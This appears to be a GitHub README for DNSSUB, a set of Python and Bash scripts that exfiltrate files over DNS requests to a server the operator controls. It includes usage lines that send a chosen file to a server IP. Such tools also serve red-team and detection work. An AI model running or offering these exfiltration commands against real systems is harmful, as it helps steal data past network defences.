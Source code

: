 # DNSSUB
Exfiltrate files over dns requests using Python and/or Bash

A quick set of scripts I done after seeing DNSFTP (https://github.com/breenmachine/dnsftp) 
I used some of Breenmachine's code in the scripts, The chunks function is very handy.
I also used Simple DNS server (https://gist.github.com/andreif/6069838) as a base dns server for this script.

Server Usage:
Run dnssub.py on your server which will bind to port 53 udp it will act like a dns server giving A records for the domain you enter in the script.
Client Usage: 
python client.py <file> <serverip>
./client.sh <file> <serverip>

